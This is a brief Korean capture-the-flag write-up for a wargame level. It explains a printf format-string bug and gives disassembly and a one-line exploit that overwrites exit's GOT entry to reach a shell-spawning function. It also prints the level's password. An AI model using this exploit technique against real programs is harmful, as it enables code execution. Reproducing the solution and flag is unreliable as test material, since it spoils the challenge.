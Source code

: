 > Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

저번 단계와 비슷하게 printf를 이용하는 문제이다. 다만 모든 함수 호출에서 ret 대신 _exit(2) / exit(3)등이 있어서 ret 주소를 조작하는 방식으로는 해결할 수 없다.

```
080484c2 <n>:
 80484c2:	55                   	push   %ebp
 80484c3:	89 e5                	mov    %esp,%ebp
 80484c5:	81 ec 18 02 00 00    	sub    $0x218,%esp
 80484cb:	a1 48 98 04 08       	mov    0x8049848,%eax
 80484d0:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484d4:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
 80484db:	00 
 80484dc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484e2:	89 04 24             	mov    %eax,(%esp)
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 80484f0:	89 04 24             	mov    %eax,(%esp)
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>
```

하지만 exit(3)함수가 정적 링킹이 아니라 동적 링킹으로 위치를 찾아 호출하는 함수라는 점을 이용해서 실제 exit(3)의 위치를 가지고 있는 got테이블의 값을 o라는 쉘을 호출해주는 함수의 주소로 조작하면 된다.

```bash
cat <(python -c 'print "\x38\x98\x04\x08%.0s%.0s%033952x%hn",') - | ./level5
```